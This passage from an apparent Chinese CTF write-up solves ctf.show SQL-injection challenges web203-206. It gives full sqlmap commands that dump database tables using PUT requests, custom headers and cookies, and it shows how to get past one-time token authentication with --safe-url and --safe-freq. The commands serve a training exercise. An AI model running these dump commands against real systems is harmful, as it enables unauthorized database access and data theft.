 不过 PUT 提交有两个条件

1. headers 内修改为 Content-Type: text/plain
   
2.  /api/ 补全为 /api/index.php

```bash
sqlmap.py -u "http://9f5fd319-561c-426e-a333-fe2eb2bf601a.challenge.ctf.show/api/index.php" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --dump -T ctfshow_user -D ctfshow_web
```

## web204

抓包时会有 cookie `PHPSESSID=41bio5n2atcltdt7dnsekcgmsk`

其余同上 (竟然还是 PUT 方法...)

```bash
sqlmap.py -u "http://ef292aba-c228-46fc-b3b0-52c98503672a.challenge.ctf.show/api/index.php" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --cookie "PHPSESSID=41bio5n2atcltdt7dnsekcgmsk" --dump -T ctfshow_user -D ctfshow_web
```

## web205

"api调用需要鉴权"

抓包发现每次查数据前都会访问一下 `/api/getToken.php` 得到临时 cookie (只能用一次)

可以使用 sqlmap 的 `--safe-*` 系列参数

```bash
    --safe-url=SAFEURL  URL address to visit frequently during testing
    --safe-post=SAFE..  POST data to send to a safe URL
    --safe-req=SAFER..  Load safe HTTP request from a file
    --safe-freq=SAFE..  Regular requests between visits to a safe URL
```

freq 设置为1次

```bash
sqlmap.py -u "http://e3eed01a-8ada-4f3c-bb92-7eeed1b78f2f.challenge.ctf.show/api/index.php" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://e3eed01a-8ada-4f3c-bb92-7eeed1b78f2f.challenge.ctf.show/api/getToken.php" --safe-freq 1 -dump -T ctfshow_flax -D ctfshow_web
```

## web206

同上

```bash
sqlmap.py -u "http://7ce2ba54-4265-4985-966e-cf8db2093c86.challenge.ctf.show/api/index.php" --data "id=1&page=1&limit=10" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://7ce2ba54-4265-4985-966e-cf8db2093c86.challenge.ctf.show/api/getToken.php" --safe-freq 1 -dump -T ctfshow_flaxc -D ctfshow_web
```
